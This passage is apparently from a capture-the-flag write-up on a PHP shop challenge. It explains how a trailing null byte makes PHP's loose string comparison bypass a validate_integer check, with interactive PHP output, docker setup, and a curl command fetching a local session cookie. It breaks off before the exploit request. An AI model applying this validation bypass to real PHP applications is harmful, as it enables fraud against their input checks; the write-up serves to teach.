 In the context of the program, it would assume the comparison would be `2<100` which is true in terms of integers. However, if we include a character in the string, it becomes false due to comparing alphabetically when considering both sides as strings! This essentially defines the purpose for the `validate_integer` function in an attempt to ensure that string comparisons do not occur. 

We have now identified a potential bypass for the beans check if we include non-digit characters within the `amt` input. While we can't include letters like I have done in the examples, we can include whitespace which may potentially still cause the same behaviour of alphabetical comparisons instead.

#### The Infamous Byte 

First we need to look at what characters the trim function will strip to see what are our options. By default the function will strip these characters:

```
" ": ASCII SP character 0x20, an ordinary space.
"\t": ASCII HT character 0x09, a tab.
"\n": ASCII LF character 0x0A, a new line (line feed).
"\r": ASCII CR character 0x0D, a carriage return.
"\0": ASCII NUL character 0x00, the NUL-byte.
"\v": ASCII VT character 0x0B, a vertical tab.
```

Next, we want to attempt to replicate the behaviour for `2<100a` returning false.

```php
php > echo var_dump(2<"100 ");
bool(true)
php > echo var_dump(2<"100\t");
bool(true)
php > echo var_dump(2<"100\n");
bool(true)
php > echo var_dump(2<"100\r");
bool(true)
php > echo var_dump(2<"100\0");
bool(false)
php > echo var_dump(2<"100\v");
bool(true)
```

We observe the null byte has the same behaviour! Therefore, we can bypass the `validate_integer` function and cause the alphabetical comparison to buy more beans than we actually have. 

#### Solving the Challenge

I will be running the following commands on a local docker instance. To set this up:

```docker
docker build -t beans .
docker run -p 1337:1337 beans
```

First, grab a valid PHP session that tracks our beans and money:

```bash
SESH_COOKIE=$(curl -s -i "http://localhost:1337" | sed -n 's/.*\(PHPSESSID=[^;]*\).*/\1/p')
```
